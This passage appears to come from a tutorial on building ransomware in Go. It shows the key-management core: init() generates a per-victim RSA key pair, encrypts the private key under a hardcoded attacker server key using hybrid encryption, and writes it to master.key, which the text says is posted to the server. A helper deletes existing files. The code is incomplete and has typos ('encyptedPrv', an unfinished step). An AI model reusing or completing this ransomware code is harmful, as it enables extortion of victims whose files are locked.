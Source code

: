 ```golang
```

After calling `encryptHybrid()` we will have the ciphertext with IV, and the encrypted symmetric key that use used to encrypt the ciphertext. The encrypted symmetric key is encrypted with the provided RSA public key. We can now extend our `init()` function to use this. Also introduced is a function `rmifex()` which will remove a file if it exists.

We'll store the encrypted client private key in a file `master.key`. This file will be posted to the server because, despite what ransomware victims who end up paying believe, backups are important.

```golang
func init() {
	var err error
	serverKey, err = x509.ParsePKCS1PublicKey(serverKeyBytes)
	if err != nil {
		log.Fatal(err)
	}

	clientPrv, err := rsa.GenerateKey(rand.Reader, 1024)
	if err != nil {
		log.Fatal(err)
	}

	n := big.NewInt(0)
	n.SetBytes(clientPrv.PublicKey.N.Bytes())
	clientKey = &rsa.PublicKey{
		N: n,
		E: clientPrv.PublicKey.E,
	}

	encodedPrv := x509.MarshalPKCS1PrivateKey(clientPrv)
	log.Println(encodedPrv)

	encyptedPrv, encSymKey := encryptHybrid(serverKey, encodedPrv)

	// write encrypted client prv to file
	rmifex("master.key")
	err = ioutil.WriteFile("master.key", encryptedPrv, 0444)
	if err != nil {
		log.Fatal(err)
	}

	// store encrytped symmetric key 

	zero(encodedPrv)
}

func rmifex(path string) {
	_, err := os.Stat(path)
	if err == nil {
		err := os.Remove(path)
		if err != nil {
			log.Fatal(err)
		}
	}
}
```
